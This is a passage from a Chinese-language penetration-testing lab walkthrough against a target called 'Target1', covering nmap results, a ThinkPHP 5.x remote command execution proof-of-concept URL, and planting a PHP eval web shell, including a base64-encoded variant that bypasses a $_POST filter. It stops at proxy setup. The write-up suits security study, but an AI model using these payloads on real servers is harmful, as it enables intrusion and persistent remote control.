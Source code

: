     OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
    
        

可以看到Target1存在ftp、ssh、http等端口，且是一个Linux的操作系统。

2、既然存在http服务，那就用浏览器打开看看是个什么-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012213906506.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
3、原来是ThinkPHP 5.X框架，这不禁让我想到18年底爆出的该框架的远程命令执行漏洞，那就先用POC测试一下

    /index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012213930750.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

4、成功出现了PHPinfo界面，说明该版本是存在这在漏洞的，接下来就可以直接上工具写入一句话了，当然也可以使用POC写入一句话，不过还是工具方便些

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012213936240.png%23pic_center)-
5、在工具中命令是可以被执行的，那就getshell吧

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012213952244.png%23pic_center)

6、昂~ getshell失败，没关系，直接echo写入一句话

    echo “<?php @eval($_POST[‘TeamsSix’]);?>” > shell.php
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012213958829.png%23pic_center)-
7、通过浏览器访问，查看shell.php是否上传成功-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214010346.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
8、可以看到shell.php已经被上传上去了，但是提示语法错误，同时蚁剑也返回数据为空，看来一句话上传的有点问题，那就cat查看一下-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101221402118.png%23pic_center)-
之前：<?php @eval($\_POST\[‘TeamsSix’\]);?>-
之后：<?php @eval(\[‘TeamsSix’\]);?>

9、不难发现$\_POST被过滤了，那就利用Base64编码后再次上传试试

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214031439.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214039776.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214045980.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    echo “PD9waHAgQGV2YWwoJF9QT1NUWydUZWFtc1NpeCddKTs/Pg==” | base64 -d > shell.php
    
        

10、此时可以看到一句话已经正常，蚁剑也能够连接成功，此时已经获取到该主机的shell，下一步添加代理-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214100486.png%23pic_center)

b、设置代理-
注：本文中设置代理的方法参考安全客里面tinyfisher用户的一篇文章，其文章地址在本文末尾参考文章处。
